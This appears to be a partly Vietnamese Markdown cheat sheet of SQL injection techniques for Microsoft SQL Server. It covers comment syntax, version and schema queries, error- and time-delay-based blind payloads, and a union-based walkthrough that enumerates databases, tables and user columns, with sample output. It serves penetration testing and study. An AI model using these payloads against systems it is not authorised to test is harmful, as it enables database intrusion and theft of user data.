 # Tổng quan

- SQL Server hoạt động tốt với .NET
- SQL server sử dụng một storage engine được phát triển bởi Microsoft
- Cho phép hủy quẻy giữa chừng
- SQL Server chủ yếu hỗ trợ Windows, với các tùy chọn triển khai đám mây cho Linux và macOS thông qua Docker.

# String concatenation

```
'Kit'+'Kat'
```

# Substring

```
SUBSTRING('carrot', 4, 2)
```

# Comments

```sql
/*comment*/
--comment
```

# Database version

```sql
SELECT @@version
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

# Time delays

```sql
WAITFOR DELAY '0:0:10'
```

# Conditional time delays

```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10
```

# MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases -- `..` dùng để chỉ đối tượng trong 1 cơ sở dữ liệu cụ 
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```


